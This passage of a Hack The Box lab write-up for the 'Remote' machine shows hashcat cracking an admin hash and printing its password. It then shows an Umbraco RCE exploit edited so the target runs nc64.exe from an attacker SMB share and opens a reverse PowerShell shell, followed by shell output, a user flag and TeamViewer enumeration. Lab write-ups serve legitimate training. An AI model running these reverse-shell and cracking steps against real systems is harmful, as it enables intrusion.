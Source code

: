 
5. Use hashcat to crack the SHA1 hash of user admin@htb.local

    root@nidus:/opt/htb/machines/remote# hashcat -a0 -m100 hash.txt /usr/share/wordlists/rockyou.txt -o cracked.txt --force
      ..
      Status...........: Cracked
      ..

    root@nidus:/opt/htb/machines/remote# cat cracked.txt
      b8be16afba8c314ad33d812f22a04991b90e2aaa:baconandcheese


6. We are now able to login to the portal, 10.10.10.180/umbraco, with found credentials. A quick search for "Umbraco" on google tells us that it has a Remote Code Execution vuln.
   Download the script from ExploitDB and modify it to first return a ping. Once we get a ping back, we can change the code ('string cmd' and 'proc.StartInfo.FileName') to get a reverse shell.

   root@nidus:/opt/htb/machines/remote# cat 46153.py
    ..
    string cmd = "//10.10.14.2/pub-share/nc64.exe 10.10.14.2 4488 -e powershell"; System.Diagnostics.Process proc = new System.Diagnostics.Process();\
    proc.StartInfo.FileName = "powershell.exe";
    ..


    root@nidus:/opt/htb/machines/remote# rlwrap nc -lvnp 4488
      listening on [any] 4488 ...
      connect to [10.10.14.2] from (UNKNOWN) [10.10.10.180] 49694
      Windows PowerShell
      Copyright (C) Microsoft Corporation. All rights reserved.

      PS C:\windows\system32\inetsrv> whoami
        whoami
        iis apppool\defaultapppool

      PS C:\Users\Public> type user.txt
        type user.txt
          439732ceaf451f5ed3f240011174e757



██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██████╗  ██████╗  ██████╗ ████████╗
   ██╔══██╗██╔═══██╗██╔═══██╗╚══██╔══╝
   ██████╔╝██║   ██║██║   ██║   ██║
   ██╔══██╗██║   ██║██║   ██║   ██║
   ██║  ██║╚██████╔╝╚██████╔╝   ██║
   ╚═╝  ╚═╝ ╚═════╝  ╚═════╝    ╚═╝


1. Enumerate the boxes services and we find a vulnerable TeamViewer (7) service.
    PS C:\Users> tasklist /SVC
      tasklist /SVC

      Image Name                     PID Services
      ========================= ======== ============================================
      ..
      TeamViewer_Service.exe        3080 TeamViewer7
